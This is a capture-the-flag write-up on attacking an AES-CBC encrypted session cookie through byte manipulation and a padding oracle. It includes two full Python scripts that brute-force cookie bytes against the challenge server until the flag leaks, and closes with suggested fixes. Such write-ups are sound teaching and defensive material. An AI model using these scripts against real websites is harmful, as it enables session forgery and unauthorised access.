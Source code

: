 grg
==============

Overview
--------
We have a website that protects some resource (the flag in this case) behind session based authentication with the credentials being composed of username and password.

Vulnerability
-------------
The session cookie is being encrypted with AES in CBC mode.
This alone is not sufficient to provide a fresh login since an encrypted cookie can just be resent to authenticate.
To counter this the application includes a time stamp in the cookie and verifies its freshness through it.
However as you will see in the next section this is not enough.  
The vulnerability We were supposed to exploit builds on how CBC mode works.
Since a block of ciphertext is transformed to plaintext by decrypting it and xoring it with the previous block of ciphertext we can manipulate the bytes of the previous block by reversing the xor with our guess, send it to the server and look at the response text.
The program actually gives us a different answer depending on the type of error that occurred.
So when a padding error occurs we know that our guess is wrong, otherwise we guessed the byte and keep going to the next one until the block is decrypted and we keep doing this block for block.

Exploitation
------------
I started fiddling around in python to implement this padding oracle attack and managed to get hold of the flag during that process by accident without actually implementing the planned attack.
Without looping over any blocks or bytes I just tried to implement the process of guessing a single byte and while doing so I inserted a few print statements showing the response text into my oracle function to validate some assumptions.
This led to the flag being spilled in the response since I was manipulating a part of the ciphertext that would influence the timestamp part of the cookie (at least that's what I guess happened).
So I stashed that little accident script and wrote a new one specifically for this type of exploit.

Here is the original exploit

    #!/usr/bin/env python3

    from requests import Session
    from base64 import urlsafe_b64encode, urlsafe_b64decode
    from operator import xor

    import re


    BLOCK_SIZE = 16
    COOKIE_CIPHER = "C-37g56JmOANzMc8wMspBhoLae2wcPEkPO74TJe0kPmovVwC1SN7dVNVgsd0hURzyb6RklkDqemGgdb5_FrnhLQISPu7w7__DLDtQZZfRDW9kArEJr8YvZ5LfMpPtM6WuHRD9VsqfnAnsN7KqlQk1ndFKk1mpn5qEyktQP-I8O0="
    BASE_URL = 'http://grg.wutctf.space/'
    TARGET_URL = BASE_URL + '/uyulala'
    SESSION = Session()


    def chop(lst, size):
        return [ lst[i:i+size] for i in range(0, len(lst), size) ]


    def oracle(cookie):
        no = 'Decryption failed'
        SESSION.cookies.set('session', cookie)
        res = SESSION.get(TARGET_URL)
        for line in res.text.split('\n'):
            if re.search(r'dark-panel', line):
                print(line)
        return no not in res.text

    def main():
        tokens = chop(urlsafe_b64decode(COOKIE_CIPHER), BLOCK_SIZE)
        print(oracle(COOKIE_CIPHER))
        print()

        d_block = tokens[1]
        g_block = tokens[0]

        idx = len(g_block) - 1
        manipulatee = g_block[idx]
        for guess in range(256):
            block = g_block[:idx] + xor(manipulatee, guess).to_bytes(1, 'big') + g_block[idx+1:]
            payload = b''.join([block] + [d_block] + tokens[2:])
            payload = str(urlsafe_b64encode(payload))
            payload = payload[2:len(payload)-1]
            print(oracle(payload))


    if __name__ == '__main__':
        main()

And here the 2nd generation

    #!/usr/bin/env python3

    from requests import Session
    from base64 import urlsafe_b64encode, urlsafe_b64decode

    import sys
    import re


    COOKIE_CIPHER = "C-37g56JmOANzMc8wMspBhoLae2wcPEkPO74TJe0kPmovVwC1SN7dVNVgsd0hURzyb6RklkDqemGgdb5_FrnhLQISPu7w7__DLDtQZZfRDW9kArEJr8YvZ5LfMpPtM6WuHRD9VsqfnAnsN7KqlQk1ndFKk1mpn5qEyktQP-I8O0="
    BASE_URL = 'http://grg.wutctf.space/'
    TARGET_URL = BASE_URL + '/uyulala'
    SESSION = Session()


    def get_flag(cookie):
        SESSION.cookies.set('session', cookie)
        res = SESSION.get(TARGET_URL)
        for line in res.text.split('\n'):
            if re.search(r'dark-panel', line) and not re.search(r'(Malformed|Descryption|Invalid|Session)', line):
                return line
        return None

    def main():
        for idx, bite in enumerate(urlsafe_b64decode(COOKIE_CIPHER)):
            cookie = bytearray(urlsafe_b64decode(COOKIE_CIPHER))
            for guess in range(256):
                cookie[idx] = guess
                payload = str(urlsafe_b64encode(cookie))
                payload = payload[2:len(payload)-1]
                flag = get_flag(payload)
                if flag:
                    print("Cookie: session={}\nFlag: {}".format(payload, flag))
                    sys.exit()


    if __name__ == '__main__':
        main()

Solution
--------
I see two options for the block cipher mode issue:
    - unify error messages sent to the client
    - use a different mode, i.e. Cipher Feedback

For the issue with the modifiable timestamp signing the session might fix it.
